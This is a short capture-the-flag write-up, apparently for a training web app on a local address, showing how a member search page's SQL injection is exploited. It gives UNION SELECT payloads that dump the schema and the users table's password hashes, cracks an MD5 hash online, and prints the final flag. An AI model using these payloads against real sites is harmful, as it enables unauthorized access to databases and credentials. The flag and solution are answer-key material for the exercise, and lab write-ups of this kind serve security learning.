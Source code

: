 # SQL injection
The member search page allows SQL injection.
http://192.168.99.100/?page=member

Searching for user ID 5 returns the following: `First name: Flag \n Surname: GetThe`. ID 4 and 6 don't exist.

Putting the following query in the member search input will get us the DB schema:
`1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
This reveals that the users table has the following columns:
user_id, first_name, last_name, town, country, planet, Commentaire, countersign

The following query will reveal something about GetThe Flag:
`1 AND 1=2 UNION SELECT Commentaire, countersign FROM users WHERE 1=1`
http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+Commentaire%2C+countersign+FROM+users+WHERE+1%3D1&Submit=Submit#
Commentaire: `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
countersign: `5ff9d0165b4f92b14994e5c685cdce28`
Looks like hex but that only returns garbage. Paste into Google and you get a few results for reverse MD5 hashes. It decodes as `FortyTwo`.
https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28

sha256(`fortytwo`) =>
Flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
